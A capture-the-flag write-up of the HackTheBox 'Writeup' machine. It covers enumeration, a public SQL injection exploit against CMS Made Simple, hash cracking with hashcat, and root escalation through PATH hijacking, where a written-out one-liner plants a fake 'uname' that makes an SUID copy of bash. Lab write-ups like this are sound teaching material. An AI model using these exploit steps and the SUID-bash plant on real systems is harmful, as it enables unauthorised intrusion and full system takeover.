 ```yaml
---
title: "HackTheBox - Writeup"
author: Nasrallah
description: ""
date: 2023-02-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, sqli, hashcat, cracking]
img_path: /assets/img/hackthebox/machines/writeup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

# **Description**

Hello hackers, I hope you are doing well. We are doing [Writeup](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.138
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd5310700bd0470ae27e4ab6429823c7 (RSA)
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 running an Apache http web server.

There is a robots.txt file in the web server with a disallowed entry of `/writeup`

## Web

Let's navigate to the web page.

![](1.png)

Here we got a message form `jkr` stating that there is a script in place where it watches for 40x error in Apache and bans IPs, so we cant't really run gobuster or any other automated tool.

Let's check the /writeup directory.

![](2.png)

This is where the author put writeups.

Checking the source code, we find that this page is generated by CMS Made Simple

![](3.png)

Checking the `source code: svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/doc/) of this CMS, we find the file` /docs/CHANGELOG.txt` reveals the current version of the used CMS.

On the target system, we find that the version is 2.2.9.1.

## Searchsploit

Let's check if this version has any vulnerabilities.

```terminal
└──╼ $ searchsploit made simple  2.2
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                        | php/webapps/4810.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                              | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                                | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                                    | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                                 | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                                | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                    | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                               | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                               | php/webapps/45793.py
CMS Made Simple < 2.2.10 - SQL Injection                                                                                    | php/webapps/46635.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                
```

There is a sql injection vulnerability, let's copy the exploit with `searchsploit -m php/webapps/46635.py`

# **Foothold**

Now let's run the exploit.

![](4.png)

The exploit gave us a username, a salt and a hash.

Let's combine the salt and hash and put it in a file to crack it.

```bash
$ cat hash.txt
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Using hashcat with mode 20 and rockyou wordlist to crack the hash.

![](5.png)

We got the password, now we can ssh into the machine.

![](6.png)

# **Privilege Escalation**

By running the command id, we notice that user jkr, is part of a group called `staff`.

```terminal
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

After running linpeas. we also see that this group has write permission over `/usr/local/*`.

![](7.png)

Also the PATH starts with the /usr/local/bin directory

```terminal
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We can use this to exploit any binary that's running without a full path.

Using [pspy64](https://github.com/DominicBreuker/pspy) we can see any commands or cronjob that are running on the system. Let's see if we can find a binary that's running without a full path.

![](8.png)

There were no cronjobs running, so i tried to ssh into the machine again and captured the command uname running without a path.

With the following command, i created a `uname` script that's going to make copy of bash with suid bit.

```bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /usr/local/bin/uname && chmod +x /usr/local/bin/uname
```

Now we ssh again and run `/tmp/bash -p`

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
